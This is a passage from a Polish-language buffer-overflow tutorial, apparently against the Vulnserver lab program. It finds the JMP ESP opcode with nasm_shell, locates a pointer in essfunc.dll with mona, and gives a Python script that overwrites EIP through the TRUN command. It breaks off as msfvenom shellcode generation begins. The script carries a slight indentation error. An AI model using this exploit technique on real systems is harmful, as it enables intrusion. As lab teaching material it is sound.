    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

    nasm > JMP ESP

    Output: 00000000 FFE4          jmp esp

Tą wartością heksadecymalną jest `FFE4`. Ponownie przechodzimy do *Immunity Debuggera* i ponownie będzie korzystać z mony. Wpisujemy poniższe polecenie

    !mona find -s "\xff\xe4" -m essfunc.dll

![](p/8.png)

Przepisujemy wartość pierwszego pointera tj. `625011af`. Przechodzimy znów na maszynę atakującą i edytujemy plik *2.py*. Usuwamy *badchars* i modyfikujemy shellcode, zamiast 4 * "B" wpisujemy wartość pointera jednak od tyłu, dzieje się tak dlatego że procesory x64 opierają się na *little endian* - tzn. najmniej znaczący bajt umieszczony jest jako pierwszy.  Czyli nasz kod powinien wyglądać tak:

```python
#!/usr/bin/python

import sys, socket

shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()
except:
    print "Error occured while connecting to server"
    sys.exit()
```

Następnie w *Immunity Debugger* będziemy śledzić nasz *jump point* `625011af` (wybieramy opcję na lewo od litery "l", na tym samym pasku co uruchamiamy program), ustawiamy również *breakpoint* wciskając klawisz F2. Po uruchomieniu powyższego kodu program zatrzyma się na naszym *breakpoincie* - zatem kontrolujemy EIP!.

## **Wygenerowanie shellcode'u i zdobycie roota**

Przy pomocy msfvenom wygenerujemy shellcode, używamy poniższego polecenia (nie wspomnieliśmy o tym wczesniej, ale jako *bad character* należy podać *null byte* czyli *\x00*):
